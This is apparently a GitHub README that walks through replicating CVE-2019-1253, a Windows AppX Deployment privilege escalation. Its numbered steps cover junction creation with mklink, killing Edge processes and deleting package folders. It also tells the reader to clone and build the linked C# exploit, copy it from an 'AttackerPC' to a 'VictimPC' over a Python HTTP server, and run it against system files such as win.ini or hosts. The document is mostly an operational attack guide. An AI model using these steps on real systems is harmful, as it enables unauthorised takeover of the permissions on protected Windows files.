 ## CVE2019-1253-Compiled
Windows AppX Deployment -  Windows Elevation of Privilege Vulnerability

## How to Replicate this attack
So, Here is the Way ..!!
```
1. Check if exists directory ""C:\Users\{Environment.UserName}\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe"
If not, launch Edge for the first time to create that directory.
2. Check if there are any Microsoft Edge running processes. In that case, kill all the processes.
3. Create temporary directory in C:\ , with your choice name.
4. Above Created directory we will use as mountpoint so now Create the hardlink to the targetted file within this directory.
(mklink /J "C:\testapp" "C:\Users\JohnUser\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\Settings")
5. Launch Microsoft Edge, it will crash and AppxSvc and takes SYSTEM ownership of the directory created by you in C: directory , if it doen't happen so don't worry it's okay.
5. Delete the local user directory for the Microsof Edge package appX after visiting "C:\Users\{Environment.UserName}\AppData\Local\Packages\" inside it. Delete everything except "C:\Users\{Environment.UserName}\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\" this location inside the Package directory.
6. Try to removes permissions for current user from modify access to none, in my case i was not able to remove perm from the user so i lefted and proceed further to test the case.
7.Clear directory files from the mounted directory and try to re-create the hardlink to the targeted file inside this directory.
(it will say aleady exits , no worry move on)
8. git clone the Exploit and Check the permission of your target file which you are going to modify the permission.
(Target file may be choosen as "C:\WIndows\win.ini" or "C:\Windows\System32\drivers\etc\hosts" or you can choose many more systems file.)
9. Exploit it using AppxExploit.exe "C:\Windows\win.ini"
```
## Source Code of the Exploit can be found here
```
https://github.com/padovah4ck/CVE-2019-1253
```

## Screenshoot includes here
## Before
![Screenshot](whoami.png?raw=true)
![Screenshot](userinfo.png?raw=true)

## After 
![Screenshot](exploit.png?raw=true)
![Screenshot](winperm.png?raw=true)
![Screenshot](newperm.png?raw=true)

## Compile C# project from Visual Studio
Open your project to visual studio
```
Open Visual Studio --> Open Local Folder --> Select your Downloaded Folder --> Open CVE-2019-1253 --> AppExploit_Edge --> Select Folder --> Open
```
After opening your Project, just build it 
```
go to AppxExploit.csproject --> Double click to open --> Then at the top of the screen click on green icon to build
```
Now, Download and mimic exploitation.

## Transfer Exploit from AttackerPC to VictimPC
```python2.7
Python2.7:\>pyhton -m SimpleHTTPServer 90
```
```pyhton 3
Python3:\>python -m http.server
```

## How to create Hardlink, Softlink & junction
```
mklink Link Target
mklink /D Link Target
mklink /H Link Target
mklink /J Link Target
```
```
Use /D when you want to create a soft link pointing to a directory.
Use /H when you want to create a hard link pointing to a file:
Use /J to create a hard link pointing to a directory, also known as a directory junction:
```

## References
https://github.com/padovah4ck/CVE-2019-1253

https://krbtgt.pw/dacl-permissions-overwrite-privilege-escalation-cve-2019-0841/

